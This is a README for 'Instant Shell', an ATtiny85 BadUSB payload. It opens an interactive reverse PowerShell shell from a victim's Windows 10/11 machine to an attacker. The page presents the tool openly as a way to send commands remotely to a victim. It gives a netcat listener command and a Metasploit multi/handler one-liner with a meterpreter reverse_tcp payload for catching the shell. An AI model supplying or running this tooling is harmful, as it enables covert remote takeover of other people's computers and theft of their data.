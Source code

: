 # Instant Shell

### Description:

#### 1: Instant_Shell.ino:<br>
Starting instant shell to an attacker machine in less than 1 minute.<br>

**Payload by:** [hum4nG0D](https://github.com/hum4nG0D/)

Get instant interactive reverse powershell shell in less than a minute and send commands remotely to victim machine. Interactive reverse Powershell shell script from [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instructions:**
Start an nc listener or metasploit listener. Be sure to change IP and Port. Adjust script delay which suits best to your computer.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```

**Tested on:**<br>
**OS**: Windows 10|11<br>
**User**: Admin/Normal User<br>
**Hardware**: ATtiny85
